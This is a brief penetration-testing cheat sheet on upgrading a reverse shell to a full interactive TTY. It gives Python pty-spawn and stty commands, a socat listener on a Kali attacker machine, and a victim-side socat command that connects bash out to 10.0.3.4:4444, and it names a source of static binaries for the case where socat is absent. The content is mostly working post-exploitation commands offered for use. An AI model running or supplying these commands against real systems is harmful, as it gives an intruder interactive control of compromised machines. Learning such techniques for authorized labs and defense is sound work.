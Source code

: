 # Privilege elevation


# Upgrate to TTY shell
## Python
````
?? python
which python
locate python
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'  


# In reverse shell : bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali => <- -> history, vi,...
$ stty raw -echo
$ fg 
````

## socat

On Kali (listen):
  socat file:`tty`,raw,echo=0 tcp-listen:4444  
On Victim (launch):
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

If socat isn't installed, you're not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:
https://github.com/andrew-d/static-binaries



## Python + full options
Using stty options

````
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
````
